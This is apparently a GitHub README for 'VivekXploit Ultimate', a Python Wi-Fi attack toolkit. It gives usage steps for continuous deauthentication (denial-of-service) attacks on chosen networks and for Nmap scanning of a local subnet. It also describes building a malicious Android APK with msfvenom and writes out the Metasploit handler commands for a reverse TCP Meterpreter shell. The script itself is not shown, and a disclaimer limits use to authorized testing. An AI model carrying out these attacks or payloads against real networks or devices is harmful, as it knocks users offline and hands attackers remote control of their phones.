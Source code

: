 # VivekXploit_Ultimate_WiFi_Attack_Toolkit
<b>VivekXploit Ultimate is an advanced Python-based Wi-Fi attack toolkit for ethical hackers. It features deauthentication attacks, Nmap network scanning, and Android reverse shell payload generation via Metasploit. Designed for penetration testing with external Wi-Fi adapters in Kali Linux.</b>

# VivekXploit - ULTIMATE Wi-Fi Attack Toolkit

```
__     ___           _    __  __      _       _ _    
 \ \   / (_)_   _____| | __\ \/ /_ __ | | ___ (_) |_  
  \ \ / /| \ \ / / _ \ |/ / \  /| '_ \| |/ _ \| | __|
   \ V / | |\ V /  __/   <  /  \| |_) | | (_) | | |_  
    \_/  |_| \_/ \___|_|\_\/_/\_\ .__/|_|\___/|_|\__|
                                |_|                  
             V i v e k X p l o i t - ULTIMATE
```

## 🔥 Overview

VivekXploit Ultimate is an advanced Python-based Wi-Fi attack toolkit designed for **authorized penetration testing and educational use**. It combines:

* ✅ **Deauthentication (DoS) attacks** on Wi-Fi networks
* ✅ **Nmap scanning** of local networks
* ✅ **Android payload creation** using Metasploit (`msfvenom`)

Created by: **Vivek Dhobale**

## 🚀 Features

| Feature                  | Description                                              |
| ------------------------ | -------------------------------------------------------- |
| 🔺 Deauth Attack         | Scan and disconnect clients from selected Wi-Fi networks |
| 🌐 Nmap Scanner          | Discover all live devices in your local subnet           |
| 📱 Payload Generator     | Create a malicious APK for Android reverse TCP shell     |
| 🔌 Wi-Fi Adapter Support | Works with external adapters in monitor mode             |
| 📂 Log Handling          | CSV files automatically moved to backup folder           |

## ⚙️ Requirements

* OS: **Kali Linux or Parrot OS**
* Python 3.6+
* Root privileges (`sudo`)
* External Wi-Fi adapter (e.g. Alfa AWUS036NHA)
* Tools installed:

  * `airmon-ng`, `airodump-ng`, `aireplay-ng`
  * `nmap`, `msfvenom`

Install Python requirements:

```bash
pip install -r requirements.txt
```

## 📥 Setup & Run

```bash
sudo python3 VivekXploit_Ultimate.py
```

## 🧪 Usage Instructions

### 🔹 Deauthentication Attack

1. Script detects your Wi-Fi adapters
2. Choose interface (e.g., wlan0)
3. Select target from scanned networks
4. Script sends continuous deauth packets

> Press `CTRL+C` to stop attack

---

### 🔹 Nmap Scan (Internal LAN)

* After deauth, select `1` to run network scan:

```
Do you want to run extra tools? (1) Nmap Scan (2) Generate Payload (3) Exit:
```

* Lists live hosts on your network (like 192.168.0.1–255)

---

### 🔹 Metasploit Payload Generator

* Select option `2`
* Enter your **LHOST (your IP)** and **LPORT (e.g., 4444)**
* Output: `vivek_payload.apk`
* Use with Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
exploit
```

---

## 📡 Wi-Fi Adapter

To run monitor mode attacks, you **must use** a compatible external USB Wi-Fi adapter that supports injection (e.g., Alfa AWUS036NHA, TP-Link TL-WN722N v1).

## ⚠️ Legal Disclaimer

> This tool is for **educational and authorized penetration testing only**.
> Do not use it on networks you do not own or have permission to test.

Misuse of this tool can be illegal. The developer is not responsible for any damage caused.

## 👨‍💻 Author

* **Vivek Dhobale**
* GitHub: [github.com/VivekDhobale-VivekXploit](https://github.com/VivekDhobale-VivekXploit)
* LinkedIn: [linkedin.com/in/vivek-dhobale-vr](https://www.linkedin.com/in/vivek-dhobale-vr)

---

Made with ❤️ for ethical hackers and learners.
